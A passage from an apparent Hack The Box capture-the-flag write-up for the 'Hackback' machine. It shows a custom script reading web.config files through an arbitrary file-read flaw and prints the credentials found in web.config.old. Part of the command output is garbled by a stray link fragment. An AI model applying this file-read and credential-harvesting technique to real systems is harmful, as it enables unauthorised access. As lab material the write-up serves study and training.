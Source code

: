```
    [5] => paypal
    [6] => twitter
)
```

As we saw above, there's a `web.config` file that can potentially contain sensitive information.

I downloaded it with `./hackback_read.py ../web.config`

```
# ./hackback_read.py ../web.config
200
200
[04 March 2019, 12:51:22 AM] 10.10.14.23 - Username: test@test.com, Password: 

root@ragingunicorn:~/htb/hackback# cat web.config
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
[...]](root@ragingunicorn:~/htb/hackback# ./hackback_read.py /inetpub/wwwroot/new_phish/admin web.config
200
200
[04 March 2019, 12:53:51 AM] 10.10.14.23 - Username: test@test.com, Password: <?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <directoryBrowse enabled="false" showFlags="None" />
    </system.webServer>
</configuration>)
```

Nothing interesting in this one but the `web.config.old` contains some credentials:

```
# ./hackback_read.py /inetpub/wwwroot/new_phish/admin web.config.old
200
200
[04 March 2019, 12:54:18 AM] 10.10.14.23 - Username: test@test.com, Password: <?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <authentication mode="Windows">
        <identity impersonate="true"                 
            userName="simple" 
            password="ZonoProprioZomaro:-("/>
     </authentication>
        <directoryBrowse enabled="false" showFlags="None" />
    </system.webServer>
</configuration>
```

Username: `simple`
Password: `ZonoProprioZomaro:-(`
